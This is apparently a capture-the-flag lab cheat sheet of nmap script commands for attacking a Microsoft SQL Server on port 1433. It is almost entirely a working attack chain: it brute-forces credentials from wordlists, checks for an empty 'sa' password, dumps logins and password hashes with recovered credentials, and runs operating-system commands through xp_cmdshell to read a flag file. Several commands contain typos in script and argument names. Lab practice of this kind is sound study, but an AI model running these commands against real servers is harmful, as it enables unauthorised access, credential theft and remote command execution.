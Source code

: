 Running nmap ms-sql-info script to get more information about the target SQL Server
`nmap --script ms-sql-info -p1433 10.2.4.6`
Running nmap ms-sql-ntlm-info script to check NTMl authentication
`nmap -p1433 --script ms-sql-ntml-info --script-args mssql.instance-port=1433 10.5.18.126`
Running ms-sql-brute script to find valid SQL credentials
`nmap -p1433 --script ms-sql-brute --script-args userdb=/root/Desktop/wordlist/common_users.txt,passdb=/root/Desktop/wordlist/100-common-passwords.txt 10.5.18.126`
Checking if "sa" user is configured with empty password or not
`nmap -p 1433 --script ms-sql-empty-password 10.5.18.16`
Extracting all user login by runninga a sql query with nmap script
`nmap -p 1433 --script ms-sql-query --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-query.query="SELECT * FROM master__syslogins" 10.5.18.16 -oN output.txt`
Extracting all SQL users hashes
`nmap -p 1433 --script ms-sql-dump-hashes --script-args mssql.username=admin,mssql.password=anamaria 10.5.18.16`
Executing a command on the target machine usign xp_cmdshell using nmap script
`nmap -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-xp-cmdsehll.cmd="ipconfig" 10.5.18.16`
Reading the flag which is located in C:\ drive
`nmap -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-xp-cmdsehll.cmd="type c:\flag.txt" 10.5.18.16`
